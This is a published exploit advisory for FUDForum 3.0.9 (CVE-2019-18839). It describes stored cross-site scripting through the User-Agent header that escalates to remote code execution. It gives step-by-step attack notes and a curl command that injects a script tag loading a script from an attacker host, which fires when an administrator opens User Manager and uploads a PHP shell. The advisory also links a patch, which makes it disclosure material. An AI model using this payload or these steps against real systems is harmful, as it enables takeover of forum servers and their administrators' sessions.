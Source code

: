 # FUDForum 3.0.9 - Stored XSS / Remote Code Execution [Admin Panel]

- Date                  : 10/26/19
- Exploit Author        : liquidsky (JMcPeters)
- Vulnerable Software   : FUDForum 3.0.9
- Vendor Homepage       : http://fudforum.org/forum/
- Version               : 3.0.9
- Software Link         : https://sourceforge.net/projects/fudforum/
- Tested On             : Windows / mysql / apache
- Author Site           : http://incidentsecurity.com | demo: https://youtu.be/0gsJQ82TXw4
- CVE                   : CVE-2019-18839, ?
- Patch / Fix           : https://sourceforge.net/p/fudforum/code/6321/

Greetz : wetw0rk, Fr13ndz, offsec

Description: FUDForum 3.0.9 is vulnerable to Stored XSS via the user-agent request header.
This may result in remote code execution. An attacker can use a user account to fully compromise the system using a GET request.
When the admin visits the user information under "User Manager" in the control panel the payload will execute.
This will allow for PHP files to be written to the web root, and for code to execute on the remote server. 

Notes: 

1. Register an account and log in to the forum. If you have an IP already associated with a registered user this is not required.
   This step is so when you run the XSS payload from your attacker machine it gets logged under the user activity.

2. Send the XSS payload below (from an IP associated with an account) / host the script:

- curl -A '<script src="http://attacker.machine/fud.js"></script>' http://target.machine/fudforum/index.php

3. When the admin visits the user information from the admin controls / User Manager the payload will fire under "Recent sessions", uploading a php shell on the remote system.
